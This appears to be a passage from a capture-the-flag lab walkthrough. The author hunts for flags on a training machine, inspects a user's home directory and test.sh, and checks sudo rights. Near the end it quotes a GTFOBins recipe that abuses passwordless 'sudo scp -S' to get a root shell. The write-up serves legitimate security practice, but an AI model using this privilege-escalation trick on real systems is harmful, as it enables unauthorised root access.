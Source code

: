 `dennis@ip-10-10-251-164:~$ cat /boot/grub/fonts/flagTwo.txt`

2 Flags to go. In the dennis home there was a file called _test.sh_, and looks pretty unusual to me.
```
dennis@ip-10-10-251-164:~$ ls -la
total 44
drwxr-xr-x 3 dennis dennis 4096 Sep  7 08:45 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1052 Sep  7 08:47 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Sep  7 08:45 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh  <------- LOOK AT ME -------|
-rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo

dennis@ip-10-10-251-164:~$ cat test.sh 
#!/bin/bash
cat /root/flag5.txt
```
So I Know now the location of the flag number 5, shall I actually run the script?
```
dennis@ip-10-10-251-164:~$ bash test.sh 
cat: /root/flag5.txt: Permission denied

dennis@ip-10-10-251-164:~$ chmod +x test.sh 
dennis@ip-10-10-251-164:~$ ./test.sh 
cat: /root/flag5.txt: Permission denied
```

Of course not. I need to escalate privilages.
I thought it was time to figure out how to use the second password I had found, but first I decided to check if dennis had any sudo privilages with the command `sudo -l`, and...BOOM
```
dennis@ip-10-10-251-164:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-251-164.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-251-164.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp <------- LOOK AT ME -------|
```

I checked immediatly on [GFTOBins](https://gtfobins.github.io/) and found this for scp

>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
>``` 
>TF=$(mktemp)
>echo 'sh 0<&2 1>&2' > $TF
>chmod +x "$TF"
>sudo scp -S $TF x y:
>```
